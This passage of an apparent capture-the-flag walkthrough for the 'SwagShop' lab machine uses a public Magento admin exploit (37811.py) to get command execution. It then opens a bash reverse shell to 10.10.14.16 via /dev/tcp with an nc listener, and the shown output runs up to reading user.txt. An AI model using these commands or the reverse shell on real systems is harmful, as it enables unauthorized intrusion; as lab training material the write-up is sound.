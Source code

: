 ![No data in order search](/assets/images/HTB-SwagShop/1.d%20No%20data%20in%20order%20search.png)

We can look out the exploit code to see what request was done last and we can also see that request in Burp Suite. The URL path includes `7d` which is a filter for 7 days. This machine didn't have any activity that matches this filter so no we get the `No Data Found` message in our response. Changing `7d` to `2y` will make it filter over a period of 2 years.

```bash
luc@kali:~/HTB/SwagShop$ python 37811.py 'http://10.10.10.140/index.php/admin' "whoami"
www-data
```

We now finally have achieved code execution.

```bash
luc@kali:~/HTB/SwagShop$ python 37811.py 'http://10.10.10.140/index.php/admin' 'bash -c "bash -i >& /dev/tcp/10.10.14.16/80 0>&1"'
```

```bash
luc@kali:~/HTB/SwagShop$ sudo nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:40268.
bash: cannot set terminal process group (1282): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/var/www/html$ cd /home/haris/
www-data@swagshop:/home/haris$ cat user.txt
```